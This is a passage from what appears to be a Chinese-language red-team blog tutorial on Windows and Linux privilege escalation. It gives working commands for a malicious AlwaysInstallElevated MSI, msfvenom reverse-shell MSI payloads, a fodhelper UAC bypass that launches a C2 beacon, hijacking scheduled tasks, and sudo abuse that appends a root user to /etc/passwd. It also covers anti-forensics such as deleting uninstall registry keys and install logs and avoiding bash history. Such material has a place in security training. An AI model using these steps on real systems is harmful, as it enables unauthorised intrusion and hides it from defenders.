D:\raingray\wix311-binaries> light 1.wixobj
Windows Installer XML Toolset Linker version 3.11.2.4516
Copyright (c) .NET Foundation and contributors. All rights reserved.

E:\desktop\1.wxs(13) : warning LGHT1079 : The cabinet 'product.cab' does not contain any files.  If this installation contains no files, this warning can likely be safely ignored.  Otherwise, please add files to the cabinet or remove it.
```

此时在目录里生成了 1.msi 和 1.wixpdb 两个文件。

使用 msiexec 命令去安装 1.msi 包裹，并删除安装错误日志。

```plaintext
msiexec /i 1.msi /qn /Lm deleteme.log

del deleteme.log
```

选项 /i 指定安装包，/qn 安装时不展示安装界面，/Lm 记录致命错误日志信息到文件，不写会默认存放到当前执行安装包的用户目录 %USERPROFILE%。

如果静默安装没有执行命令，很可能是 Windows Installer 服务未开启。

```plaintext
C:\Users\123>sc query msiserver

SERVICE_NAME: msiserver
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```



手动开启即可。

```plaintext
C:\Users\123>sc start msiserver

SERVICE_NAME: msiserver
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 11324
        FLAGS              :
```

*OPSEC：运行命令的时候会弹出命令行窗口，安装完结束窗口，并且安装 msi 包在事件中留下日志，执行包含安装包的绝对路径，如果执行的命令不存在会被记录。不管安装成功与否都会存在日志记录*

开始安装记录 1040  
安装结束记录 1042

**

如果选择的是第一个模板 alwaysInstallElevated-1.wxs 进行安装。

```xml
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="23e23deeqwddeweqwde" Version="0.0.1" Manufacturer="Test1" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" />
<Media Id='1' />
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222" KeyPath="yes">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles" />
</Feature>
<CustomAction             Id="Shell"             Execute="deferred"            Directory="TARGETDIR"             Impersonate="no"             ExeCommand="calc"             Return="check"         />
<InstallExecuteSequence>
<Custom Action="Shell" After="InstallFiles">
</Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```

会在 “设置 -> 应用 -> 安装的应用” 或 “控制面板\\所有控制面板项\\程序和功能” 留下安装记录。看记录应用分两行信息，第一行应用名称取 `<Product>` 属性 Name 的值，这里模板应用名是 23e23deeqwddeweqwde。，第二行是 Version 版本 0.0.1，Manufacturer 出版人 Test1，安装日期 2023/4/10


为了隐蔽，只能手动删除注册表隐藏安装记录起来。卸载软件的信息都存在注册表内。：

```plaintext
// 32 位注册表查询
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s /e /f "23e23deeqwddeweqwde"
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s /e /f "23e23deeqwddeweqwde"

// 64 位注册表查询安装的 32 应用信息。
reg query HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall /s /e /f "23e23deeqwddeweqwde"
```

这里我就 /s 批量循环查询，/f 搜索执行字符串（搜索的内容有空格要用引号包起来），/e 启用精准匹配，不加就模糊匹配，只要包含指定字符串就显示出来。

可以通过注册表以下几个值，定位删除哪个注册表

-   DisplayName，安装后显示名称
-   DisplayVersion，安装版本
-   Publisher，出版人
-   InstallDate，安装日期

```plaintext
C:\Users\123>reg query HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall /s /e /f "23e23deeqwddeweqwde"

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    DisplayName    REG_SZ    23e23deeqwddeweqwde

搜索结束: 找到 1 匹配。

C:\Users\123>reg query HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{74A5A958-D2D3-424B-97D0-DF43E9345EDD}

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    AuthorizedCDFPrefix    REG_SZ
    Comments    REG_SZ
    Contact    REG_SZ
    DisplayVersion    REG_SZ    0.0.1
    HelpLink    REG_SZ
    HelpTelephone    REG_SZ
    InstallDate    REG_SZ    20230605
    InstallLocation    REG_SZ
    InstallSource    REG_SZ    C:\Users\123\Desktop\
    ModifyPath    REG_EXPAND_SZ    MsiExec.exe /I{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    Publisher    REG_SZ    Test1
    Readme    REG_SZ
    Size    REG_SZ
    EstimatedSize    REG_DWORD    0x20
    UninstallString    REG_EXPAND_SZ    MsiExec.exe /I{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    URLInfoAbout    REG_SZ
    URLUpdateInfo    REG_SZ
    VersionMajor    REG_DWORD    0x0
    VersionMinor    REG_DWORD    0x0
    WindowsInstaller    REG_DWORD    0x1
    Version    REG_DWORD    0x1
    Language    REG_DWORD    0x409
    DisplayName    REG_SZ    23e23deeqwddeweqwde
```

删除即可隐藏。

```plaintext
reg delete HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{74A5A958-D2D3-424B-97D0-DF43E9345EDD} /f
```

不光可以手动制作，在 MSF 中也可以生成。

```plaintext
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Host> LPORT=<Port> -a x64 --platform Windows -f msi -o exploit.msi

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Host> LPORT=<Port> -a x64 --platform Windows -f msi -o evil.msi
```

有时间的话可以研究下 MSF 怎么生成的 msi，考虑把 Cobalt Strike Shell Code 写进去看怎么执行。

### 1.5 UAC Bypass

一般钓鱼正常点击 Payload 上线系统管理员账户，运行程序和执行命令发现没权限，或者是日常运行于软件你会发现弹窗让你选是还是否，一旦选否程序不会运行（长时间不处理会自动关闭确认窗口）。


这就是 UAC（User Account Control）在作妖，这是因为执行的 PowerShell 和 CMD 默认都是 Medium 完整性级别（Integrity Level），只有右键管理员打开的 Shell，Application Information 服务将自动弹出 UAC 控制框，点击是后就获得 High 完整性级别。

除了 Medium、High 也有 LOW、SYSTEM，LOW 一般是服务账户，SYSTEM 则是最高权限完整性级别。

通过 whoami 可以查看完整性级别。

```plaintext
whoami /groups
```


或者 [ProcessHacker](https://processhacker.sourceforge.io/downloads.php) 双击进程查看进程完整性级别。


另一处是添加 Integrity 列查看完整性级别。


#### 1.5.1 GUI

由于一些 GUI 应用使用较高权限运行，而且他们还有打开其他应用的功能，因此通过父进程启动的子进程也是高权限。

##### msfconfig

运行 msconfig，找到工具，选中命令提示符，运行 cmd，自动获得高完整性级别。


##### azman.msc

运行 azman.msc 找到帮助主题。


跳转 CHM 源码。


发现 notepad 以高完整性级别运行。


通过 notepad 打开 cmd 即可。

#### 1.5.2 CLI

实际上远程桌面能连接的情况很少，C2 中命令行也做不了 ”右键以管理员打开“ 这样的操作，如何获得高完整性级别 Shell？

其实系统中自带的应用运行起来默认就是高完整性级别，不弹 UAC 控制框。怎么找到系统自带完整性级别提升的程序？[Application manifests](https://learn.microsoft.com/en-us/windows/win32/sbscs/application-manifests#autoelevate) 中会配置 `<autoElevate>true</autoElevate>` 运行时就自动是高完整性级别。

```plaintext
PS C:\Users\gbb> Get-ChildItem "C:\Windows\System32\*.exe" | Select-String -pattern "<autoElevate>true</autoElevate>"

C:\Windows\System32\bthudtask.exe:79:          <autoElevate>true</autoElevate>
C:\Windows\System32\changepk.exe:199:            <autoElevate>true</autoElevate>
C:\Windows\System32\ComputerDefaults.exe:160:        <autoElevate>true</autoElevate>
C:\Windows\System32\dccw.exe:438:      <autoElevate>true</autoElevate>
C:\Windows\System32\dcomcnfg.exe:84:          <autoElevate>true</autoElevate>
C:\Windows\System32\DeviceEject.exe:81:            <autoElevate>true</autoElevate>
C:\Windows\System32\DeviceProperties.exe:87:        <autoElevate>true</autoElevate>
C:\Windows\System32\djoin.exe:305:        <autoElevate>true</autoElevate>
C:\Windows\System32\easinvoker.exe:432:      <autoElevate>true</autoElevate>
C:\Windows\System32\EASPolicyManagerBrokerHost.exe:414:      <autoElevate>true</autoElevate>
C:\Windows\System32\eudcedit.exe:1318:        <autoElevate>true</autoElevate>
C:\Windows\System32\eventvwr.exe:104:        <autoElevate>true</autoElevate>
C:\Windows\System32\fodhelper.exe:214:        <autoElevate>true</autoElevate>
C:\Windows\System32\fsquirt.exe:377:        <autoElevate>true</autoElevate>
C:\Windows\System32\FXSUNATD.exe:328:          <autoElevate>true</autoElevate>
C:\Windows\System32\immersivetpmvscmgrsvr.exe:664:      <autoElevate>true</autoElevate>
C:\Windows\System32\iscsicli.exe:369:        <autoElevate>true</autoElevate>
C:\Windows\System32\iscsicpl.exe:89:        <autoElevate>true</autoElevate>
C:\Windows\System32\lpksetup.exe:3361:        <autoElevate>true</autoElevate>
C:\Windows\System32\MSchedExe.exe:86:        <autoElevate>true</autoElevate>
C:\Windows\System32\msconfig.exe:702:        <autoElevate>true</autoElevate>
C:\Windows\System32\msra.exe:2098:        <autoElevate>true</autoElevate>
C:\Windows\System32\MultiDigiMon.exe:182:        <autoElevate>true</autoElevate>
C:\Windows\System32\newdev.exe:139:        <autoElevate>true</autoElevate>
C:\Windows\System32\odbcad32.exe:82:            <autoElevate>true</autoElevate>
C:\Windows\System32\PasswordOnWakeSettingFlyout.exe:239:         <autoElevate>true</autoElevate>
C:\Windows\System32\recdisc.exe:604:        <autoElevate>true</autoElevate>
C:\Windows\System32\rrinstaller.exe:276:            <autoElevate>true</autoElevate>
C:\Windows\System32\shrpubw.exe:251:        <autoElevate>true</autoElevate>
C:\Windows\System32\slui.exe:1351:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesAdvanced.exe:87:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesComputerName.exe:86:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesDataExecutionPrevention.exe:87:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesHardware.exe:87:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesPerformance.exe:91:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesProtection.exe:94:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemPropertiesRemote.exe:87:        <autoElevate>true</autoElevate>
C:\Windows\System32\SystemSettingsAdminFlows.exe:2456:         <autoElevate>true</autoElevate>
C:\Windows\System32\SystemSettingsRemoveDevice.exe:190:         <autoElevate>true</autoElevate>
C:\Windows\System32\Taskmgr.exe:18142:            <autoElevate>true</autoElevate>
C:\Windows\System32\tcmsetup.exe:125:        <autoElevate>true</autoElevate>
C:\Windows\System32\TpmInit.exe:219:            <autoElevate>true</autoElevate>
C:\Windows\System32\WindowsUpdateElevatedInstaller.exe:275:         <autoElevate>true</autoElevate>
C:\Windows\System32\WSReset.exe:122:    <autoElevate>true</autoElevate>
C:\Windows\System32\wusa.exe:417:            <autoElevate>true</autoElevate>
```

##### Fodhelper

比如 C:\\Windows\\System32\\fodhelper.exe 就是默认高完整性级别，High Mandatory Level，权限提升状态 Elevated: Yes。Fodhelper 从 Windows 10 开始存在，Windows 11 也可以使用。


使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 工具筛进程 fodhelper.exe 的操作。


查看发现会读取两条注册表。

```plaintext
HKCU\Software\Classes\ms-settings\Shell\Open\Command

HKCR\ms-settings\Shell\Open\Command\DelegateExecute
```


fodhelper.exe 会读取注册表 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 的值并执行。

PowerShell 新建注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command，并赋值 cmd.exe /c start C:\\Users\\123\\Desktop\\beacon.exe。

```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe /c start C:\Users\123\Desktop\beacon.exe" -Force
```

最后需要在注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 内新建 String 类型属性 DelegateExecute，值怎么填随便，只要属性存在就行，这里采用默认值空。

```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -Force
```

最后运行 C:\\Windows\\System32\\fodhelper.exe，将读取对应注册表值并运行得到高完整性级别 Beacon，需要注意的是如果使用 CMD 直接运行会闪一下窗口，可以将命令替换成 PowerShell 隐藏窗口运行。

利用完成要执行恢复操作，将注册表 HKCU:\\Software\\Classes 中 ms-settings 删除即可。

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

```plaintext
reg delete HKCU\Software\Classes\ms-settings\ /f
```

##### UACME 利用工具

[UACME](https://github.com/hfiref0x/UACME) 可以自动化完成利用。

需要主动编译 Akagi，默认会被杀软拦截需要绕过静态查杀。

用法：

```plaintext
akagi64 [Key] [Param]
```

我这里用 33 号方法 Bypass UAC 执行 cmd

```plaintext
Akagi64.exe 33 cmd
```

#### 1.5.3 DLL Hijacking⚒️

##### SystemPropertiesAdvanced.exe

[https://egre55.github.io/system-properties-uac-bypass/](https://egre55.github.io/system-properties-uac-bypass/)

##### msdt.exe

[https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass](https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass)

### 1.6 Scheduled Task

假设一个场景，公司的 Windows Server 上自己开发了个日志收集程序，每隔一段时间运行备份。如果有权限操作，重命名备份源文件，将 Payload 名称改为日志收集程序上线。

思路和 [1.3.2 Weak Service Permissions](#1.3.2+Weak+Service+Permissions) 利用一样，通过观察 `Task To Run:`、`要运行的任务:` 来得知要运行的任务是什么，看 `Run As User:`、`作为用户运行:` 来确认使用什么用户运行。

这里使用 PowerShell 快速筛有哪些任务。如果担心 PowerShell 会被拦截，可以改用 schtasks。

```plaintext
PS C:\Users\gbb> Get-ScheduledTask| Format-Table  -AutoSize

TaskPath                                                               TaskName                                                                    State
--------                                                               --------                                                                    -----
\                                                                      CreateExplorerShellUnelevatedTask                                           Ready
\                                                                      NvDriverUpdateCheckDaily_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}             Ready
\                                                                      NVIDIA GeForce Experience SelfUpdate_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8} Ready
\                                                                      NvNodeLauncher_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                       Ready
\                                                                      NvProfileUpdaterDaily_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                Ready
\                                                                      NvProfileUpdaterOnLogon_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}              Ready
\                                                                      NvTmRep_CrashReport1_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                 Ready
\                                                                      NvTmRep_CrashReport2_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                 Ready
\                                                                      NvTmRep_CrashReport3_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                 Ready
\                                                                      NvTmRep_CrashReport4_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                 Ready
\Microsoft\Office\                                                     Office Automatic Updates 2.0                                                Ready
......
```

再通过命令提示符查询任务详情。发现使用 SYSTEM 定期运行 OfficeC2RClient.exe。

```plaintext
C:\Users\gbb>schtasks /query /tn "\Microsoft\Office\Office Automatic Updates 2.0" /fo LIST /v

文件夹: \Microsoft\Office
主机名:                             RAINGRAY
任务名:                             \Microsoft\Office\Office Automatic Updates 2.0
下次运行时间:                       2023/10/25 4:39:04
模式:                               就绪
登录状态:                           交互方式/后台方式
上次运行时间:                       2023/10/24 15:27:24
上次结果:                           -2147024891
创建者:                             Microsoft Office
要运行的任务:                       C:\Program Files\Common Files\Microsoft Shared\ClickToRun\OfficeC2RClient.exe /frequentupdate SCHEDULEDTASK displaylevel=False
起始于:                             N/A
注释:                               This task ensures that your Microsoft Office installation can check for updates.
计划任务状态:                       已启用
空闲时间:                           已禁用
电源管理:
作为用户运行:                       SYSTEM
删除没有计划的任务:                 已禁用
如果运行了 X 小时 X 分钟，停止任务: 01:00:00
计划:                               计划数据在此格式中不可用。
计划类型:                           每周
开始时间:                           3:00:00
开始日期:                           2010/12/16
结束日期:                           N/A
天:                                 一周中的每一天
月:                                 每 1 周
重复: 每:                           已禁用
重复: 截止: 时间:                   已禁用
重复: 截止: 持续时间:               已禁用
重复: 如果还在运行，停止:           已禁用
......
```

最后使用 icacls、accesschk 确认有没权限替换任务计划的可执行文件或修改其脚本内容。

修改成功后可以主动运行任务。

```plaintext
schtasks /run /tn 任务名称
```

### 1.7 DLL Hijacking⚒️

DLL 劫持原理在[持久化 2.4 小节](https://www.raingray.com/archives/3890.html#2.4+DLL+Hijacking+and+Proxying)已经介绍过，这里不再过多赘述。

劫持现有服务程序的 DLL，通过代理让他访问正常。

[https://mp.weixin.qq.com/s/ReL-8U1ZJDp3kbna8GDYmg](https://mp.weixin.qq.com/s/ReL-8U1ZJDp3kbna8GDYmg)

[redteamsocietegenerale/DLLirant：DLLirant是一种工具，用于自动化指定二进制文件的DLL劫持研究。 (github.com)](https://github.com/redteamsocietegenerale/DLLirant)

直接把现有应用 DLL 重命名为其他名字，再运行就知道是不是应用再启动时必须要加载的 DLL。

[https://medium.com/@lsecqt/weaponizing-dll-hijacking-via-dll-proxying-3983a8249de0](https://medium.com/@lsecqt/weaponizing-dll-hijacking-via-dll-proxying-3983a8249de0)

### 1.8 Startup Folder

> 如果想任何用户启动，可以将快捷方式移动到全局启动目录内，系统的普通用户有权读写。Windows 11 测试失败，还是只有 123 用户上线 root 没上线.
> 
> ```plaintext
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
>   RW RAINGRAY\gbb
>   RW NT AUTHORITY\SYSTEM
>   RW BUILTIN\Administrators
>   R  BUILTIN\Users
>   R  Everyone
> ```
> 
> [https://www.raingray.com/archives/3890.html#2.3.1+Registry+Run+Keys+%2F+Startup+Folder](https://www.raingray.com/archives/3890.html#2.3.1+Registry+Run+Keys+%2F+Startup+Folder)

通过 VPS 写快捷方式，其中需要注意的就是 icon，最好结合系统中的软件来设定。如果有 Shell 你也可以离线制作好直接上传。

> ```plaintext
> Set WshShell = WScript.CreateObject("WScript.Shell")
> strDesktop = WshShell.SpecialFolders("Desktop") '特殊文件夹“桌面”
> 'Rem 在桌面创建一个记事本快捷方式
> set oShellLink = WshShell.CreateShortcut(strDesktop & "\Internet Explorer.lnk")
> oShellLink.TargetPath = "C:\Program Files\Internet Explorer\iexplore.exe"  '可执行文件路径
> oShellLink.Arguments = "http://www.downyi.com/" '程序的参数
> oShellLink.WindowStyle = 1 '参数1默认窗口激活，参数3最大化激活，参数7最小化
> oShellLink.Hotkey = ""  '快捷键
> oShellLink.IconLocation = "C:\Program Files\Internet Explorer\iexplore.exe, 0"  '图标
> oShellLink.Description = ""  '备注
> oShellLink.WorkingDirectory = "C:\Program Files\Internet Explorer\"  '起始位置
> oShellLink.Save  '创建保存快捷方式
> ```
> 
> [https://www.raingray.com/archives/3890.html#2.2+ShortCut+File+%28.lnk%29%E2%9A%92%EF%B8%8F](https://www.raingray.com/archives/3890.html#2.2+ShortCut+File+%28.lnk%29%E2%9A%92%EF%B8%8F)

## 2 Linux⚒️

Linux 内核提权都有可能导致系统宕机，慎重！

EXP合集：[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

[https://github.com/vulmon/Vulmap](https://github.com/vulmon/Vulmap)

文章待看

-   [https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616](https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616)

### 2.1 SUID

所谓 SUID，是 Linux 中文件属主的权限，通常再 Other 位置上，比如 passwd，其中 rws，Other 是写的 s，这就是 SID。

```plaintext
-rwsr-xr-x. 1 root root 27832 6月  10 2014 /bin/passwd
```

具体的含义是当你执行 passwd 时，会这个程序会以属主权限执行，这里属主是 root，那么就是会以 root 权限运行。

因此实际在 Linux 中可以搜索带有 SUID 权限的程序，结合运行 Shell 或者其他命令来提权。

```bash
find / -perm -u=s -type f 2> /dev/null
find / -perm -4000 -ls 2> /dev/null
```

搜索到具体应用，怎么利用可以参考备忘录 [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

### 2.2 sudo 配置滥用

拿到一个 shell 可以先 `sudo -ll` 查查当前用户有没配置 sudo。运维可能对 `/etc/sudofile` 配置不当，导致 UserName 用户不需要密码验证就能以任何用户身份执行任意命令：

```plaintext
UserName ALL=(ALL) NOPASSWD: ALL
```

下面是 admin 组内用户，无需密码即可使用任何用户身份，执行任意命令：

```plaintext
%admin UserName ALL=(ALL) NOPASSWD: ALL
```

这时直接 `sudo command` 就能使用 root 权限执行命令，可以向 `/etc/passwd` 添加 root 权限用户：

```plaintext
sudo sh -c "echo username:x:0:0:::/bin/bash >> /etc/passwd"
sudo -u username /bin/bash
```

为什么不 `sudo -i` 直接切换 root 用户，而是直接追加一个用户到系统呢？这样做通过 sudo 切换到新用户时 .bash\_history 不存在命令记录。

要是 sudo 需要密码，尝试搜集密码，使用其他账户执行命令，但是以上操作动作太大，可能触发告警信息。

要是能执行 find 命令，参数还没做限制就能通过 -exec 拿 shell：

```plaintext
sudo -u UserName find /etc -iname z -exec bash \;
```

### 2.3 内置编程语言

perl

```plaintext
perl -e 'print `whoami`'
```

python

```plaintext
python2 -c "from os import system; system('whoami')"
python2 -c "from subprocess import call; call(['whoami', '--help'])"
```

ruby

```plaintext
gbb@ca27536ed8de:~$ ruby -e 'puts `whoami`'
gbb
gbb@ca27536ed8de:~$ ruby -e 'require "irb" ; IRB.start(__FILE__)'
irb(main):001:0> puts `whoami`
victim
=> nil
```

Node.js

```plaintext
gbb@aa8553bd270f:~$ node -e '
> var exec = require("child_process").exec;
> exec("whoami", function (error, stdOut, stdErr) {
> console.log(stdOut);
> });
> '
gbb
```

C

```c
int main(void)
{
system("whoami");
}
```

### 2.4 Baron Samedit（CVE-2021-3156）

### 2.5 Dirty COW（CVE-2016-5195）

### 2.6 Dirty Pipe（CVE-2022-0847）

Linux kernel 可利用版本 >= 5.8 , < 5.16.11 / 5.15.25 / 5.10.102

### 2.7 Polkit（CVE-2021-4034）

### 2.8 pupy

## 3 Database

读取数据库配置文件

爆破账户。分两种，一种是数据库监听在公网，可以直接爆破，另一种监听环回地址，有 Shell 的情况下可以上传脚本文件使用不同密码重复连接数据库。

获取数据库表文件，去碰撞账户密码。如 MySQL 的 user.MYD 表中的 root 账户。

MySQL、MSSQL、Oracle 参见 [SQLI](https://www.raingray.com/archives/1098.html) 一文。

如果有账户可以使用 [MDTU](https://github.com/SafeGroceryStore/MDUT) 一键利用。

## 4 总结

遇到需要提权的场景，先从尝试单独运行 [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)、[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 提权模块，遇到具体的技术再根据本文提到的信息来进一步利用，或者你愿意全手动枚举利用，可以照着《[Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)》、《[Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)》文章敲。

## 参考资料

-   [RED TEAM Operator: Privilege Escalation in Windows Course](https://institute.sektor7.net/rto-lpe-windows)
-   [Unquoted Service Paths - Red Team Notes (ired.team)](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)
-   [Unquoted Service Path - Hack$Notes (ed4m4s.blog)](https://ed4m4s.blog/privilege-escalation/windows/unquoted-service-path)
-   [msiexec | Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec)
-   [Create MSI with WIX - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/create-msi-with-wix)
-   [利用AlwaysInstallElevated提权的测试分析 (3gstudent.github.io)](https://3gstudent.github.io/%E5%88%A9%E7%94%A8AlwaysInstallElevated%E6%8F%90%E6%9D%83%E7%9A%84%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90)
-   [Weak Service Permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)
-   [UAC绕过 | Raven Medicine (raven-medicine.com)](https://raven-medicine.com/books/ec8ce/page/uac)
-   [UAC - User Account Control - HackTricks](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control)
-   [How User Account Control works (Windows) | Microsoft Learn](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)
-   [TryHackMe | Bypassing UAC](https://tryhackme.com/room/bypassinguac)
-   [First entry: Welcome and fileless UAC bypass – winscripting.blog](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
-   [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses (v3ded.github.io)](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

最近更新：2023年10月27日 15:56:18

发布时间：2022年09月25日 19:15:00
